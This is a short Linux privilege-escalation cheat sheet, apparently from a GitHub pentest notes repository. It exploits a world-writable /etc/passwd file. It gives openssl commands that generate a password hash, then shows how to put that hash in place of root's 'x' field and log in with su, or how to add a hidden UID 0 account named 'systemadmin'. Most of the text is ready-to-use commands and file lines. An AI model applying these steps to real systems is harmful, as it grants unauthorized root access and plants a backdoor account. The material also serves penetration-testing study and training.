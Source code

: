 # Unix Shell

- **Weak File Permissions - Writable `/etc/passwd`**

`$ openssl passwd -1 thispass123`

For older linux systems

`$ openssl passwd -1 -salt new thispass123`

We have two ways to modify the `passwd` file:

## Exploit

### Overwrite password via hash digest

Replace the letter `x` for the newly generated salt hash for the `/etc/passwd`

`root:x:0:0:root:/root:/bin/bash`

Authenticate as root with the password

`$ su root`

### Create User Account

Create a new account as root with the previous generated hashed password. Here's what the format looks like:

**Note:** replace `<new_hash>` with the hashed password

`systemadmin:<new_hash>:0:0:Sysadmin:/root:/bin/bash`

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)